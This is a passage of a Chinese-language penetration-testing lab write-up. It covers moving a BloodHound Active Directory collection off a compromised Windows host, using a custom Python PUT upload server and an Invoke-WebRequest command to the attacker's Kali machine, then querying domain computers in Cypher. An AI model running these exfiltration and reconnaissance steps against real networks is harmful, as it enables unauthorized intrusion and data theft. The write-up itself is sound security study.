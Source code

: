 #### 3. 使用 BloodHound 分析 AD 結構
>[!Caution]
>直接使用 `scp -v 20250318085837_BloodHound.zip chw@192.168.45.214:/home/chw/beyond/`\
>會倒置 Error: `debug1: read_passphrase: can't open /dev/tty: No such file or directory`:\
> SCP 無法在 Windows PowerShell 中提示輸入密碼，因為 OpenSSH for Windows 預設會嘗試從 /dev/tty 讀取密碼，而 Windows 沒有 /dev/tty 這個裝置

Kali 寫一個 upload.py，接收檔案 (python http.server 不接收 `PUT`)
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cat upload.py                   
#!/usr/bin/env python3
from http.server import SimpleHTTPRequestHandler, HTTPServer

class HTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        file_path = self.translate_path(self.path)
        length = int(self.headers['Content-Length'])
        with open(file_path, 'wb') as f:
            f.write(self.rfile.read(length))
        self.send_response(201, "Created")
        self.end_headers()

server_address = ('0.0.0.0', 8000)  # 監聽所有 IP，使用 8000 端口
httpd = HTTPServer(server_address, HTTPRequestHandler)
print("Serving HTTP on port 8000 (Upload Enabled)...")
httpd.serve_forever()

┌──(chw㉿CHW)-[~/beyond]
└─$ python3 upload.py     

Serving HTTP on port 8000 (Upload Enabled)...
192.168.117.242 - - [18/Mar/2025 13:12:47] "PUT /20250318085837_BloodHound.zip HTTP/1.1" 201 -

```
Window: marcus 上傳
```
PS C:\Users\marcus> Invoke-WebRequest -Uri "http://192.168.45.214:8000/20250318085837_BloodHound.zip" -Method Put -InFile "20250318085837_BloodHound.zip"
Invoke-WebRequest -Uri "http://192.168.45.214:8000/20250318085837_BloodHound.zip" -Method Put -InFile "20250318085837_BloodHound.zip"


StatusCode        : 201
StatusDescription : Created
Content           : {}
RawContent        : HTTP/1.0 201 Created
                    Date: Tue, 18 Mar 2025 17:12:47 GMT
                    Server: SimpleHTTP/0.6 Python/3.11.9
                    
                    
Headers           : {[Date, Tue, 18 Mar 2025 17:12:47 GMT], [Server, SimpleHTTP/0.6 Python/3.11.9]}
RawContentLength  : 0

```
Kali 啟動 neo4j 和 BloodHound:
使用 Cypher Query Language 搜尋
#### 3.1 搜尋所有電腦
```
MATCH (m:Computer) RETURN m
```
![image](https://hackmd.io/_uploads/BySlhQwnkl.png)
> 我們擁有 interactive shell 的 `CLIENTWK1` 之外，BloodHound 還識別了已知的DC `DCSRV1` 和主郵件伺服器 MAILSRV1。此外，它還發現了另一台名為 `INTERNALSRV1` 的機器。